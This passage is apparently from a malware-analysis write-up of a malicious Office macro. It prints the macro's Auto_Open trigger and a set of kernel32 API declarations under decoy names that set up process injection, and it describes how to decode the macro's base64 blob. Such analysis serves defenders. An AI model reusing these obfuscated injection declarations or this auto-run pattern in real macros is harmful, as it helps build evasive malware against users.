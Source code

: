 ```
Sub joinName
  merrFolder.Run "Auto_Open"
  window.ClearTimeout(msngEnvironment)
  blnName = window.setTimeout("expandScreen", 5000, "VBScript")
End Sub
```

Ahh, here is how the read base64 blob is executed, the traditional `Auto_Open` we see with Office macros. There are some additional functions here if we follow `expandScreen`, but they aren't critical to our understanding of the malware. 


Now let's backtrack to that big base64 blob. The simplest way I've found to do this is with Find & Replace in your text editor of choice, removing the variable names, operations, quotes, and newlines. The result will be one long string. 

Once we grab the string we can decode it in CyberChef or the command line. On line 45 of the *new* code we find something very interesting:

```
Private Declare PtrSafe Function testRegistry Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartudtmString As copyString, lpProceserrCurrentrmation As copyDesktop) As Long
Private Declare PtrSafe Function newWidgest Lib "kernel32" Alias "OpenProcess" (ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwProcessID As Long) As LongPtr
Private Declare PtrSafe Function getWidgest Lib "kernel32" Alias "CloseHandle" (ByVal hObject As LongPtr) As Long
Private Declare PtrSafe Function sortDrive Lib "kernel32" Alias "InitializeProcThreadAttributeList" (lgsngCode As Any, ByVal dwAttributeCount As Long, ByVal dwFlags As Long, lpSize As Long) As Long
Private Declare PtrSafe Function exitString Lib "kernel32" Alias "UpdateProcThreadAttribute" (lgsngCode As enterFunction, ByVal dwFlags As Long, ByVal dwpAttribute As Long, ByVal lpValue As LongPtr, ByVal cbSize As Long, ByVal lpPreviousValue As Long, ByVal lpReturnSize As Long) As Long
Private Declare PtrSafe Sub lockName Lib "kernel32" Alias "DeleteProcThreadAttributeList" (lgsngCode As enterFunction)
Private Declare PtrSafe Function restoreFound Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As LongPtr, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
Private Declare PtrSafe Function exitDrive Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As LongPtr, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function getChecksum Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As LongPtr, ByVal lDest As LongPtr, ByVal Source As String, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
Private Declare PtrSafe Function importProcess Lib "kernel32" Alias "VirtualProtectEx" (ByVal hProcess As LongPtr, ByVal lpAddr As LongPtr, ByVal lSize As Long, ByVal flProtect As Long, ByRef oldProtect As Long) As LongPtr

```

This is resolving the important Windows API functions, and giving them a new function name to obscure their functionality. It's also clear from the APIs resolved here that this code is going to attempt process injection. With that in mind, our goal for the next section is to first to determine what process the payload is going to be injected into, and second, determine the payload to be written. 
